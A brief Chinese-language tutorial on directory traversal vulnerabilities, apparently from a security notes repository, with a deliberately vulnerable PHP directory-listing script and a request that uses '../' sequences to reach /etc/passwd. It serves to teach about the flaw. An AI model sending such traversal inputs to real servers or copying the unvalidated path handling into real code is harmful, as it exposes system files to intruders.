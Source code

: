 #任意目录遍历漏洞
一般与任意文件上传漏洞一起组合使用,说明[参见](http://cwe.mitre.org/data/definitions/22.html)

## 常见例子
有如下PHP脚本`demo.php`,进行目录的遍历:

```
<?php
if(array_key_exists('path', $_GET)){
   $path = $_GET['path'];
}else{
   $path = '../';
}
echo "<ul>";
foreach (new DirectoryIterator($path) as $fileinfo) {
  if($fileinfo->isDot()){
    continue;
  }
  echo "<li>".$fileinfo->getFilename()."</li>";
}
echo "</ul>";
```

通过下面的方式进行访问:

<pre>
http://localhost/demo.php?path=../../../../../../../../../../../../../../../etc/passwd
</pre>